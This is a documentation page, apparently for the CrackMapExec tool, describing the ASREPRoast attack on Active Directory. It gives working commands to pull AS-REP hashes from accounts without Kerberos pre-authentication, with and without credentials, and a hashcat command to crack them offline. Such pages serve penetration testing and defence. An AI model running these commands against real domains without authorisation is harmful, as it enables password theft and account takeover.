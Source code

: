 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast



{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```
cme ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication&#x20;
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashs where the  Kerberos pre-authentication is not required

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail&#x20;

```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Cracking with hashcat&#x20;

To crack hashes on the file output.txt with hashcat use the following options:

```
hashcat -a 0 -m 18200 output.txt wordlist
```
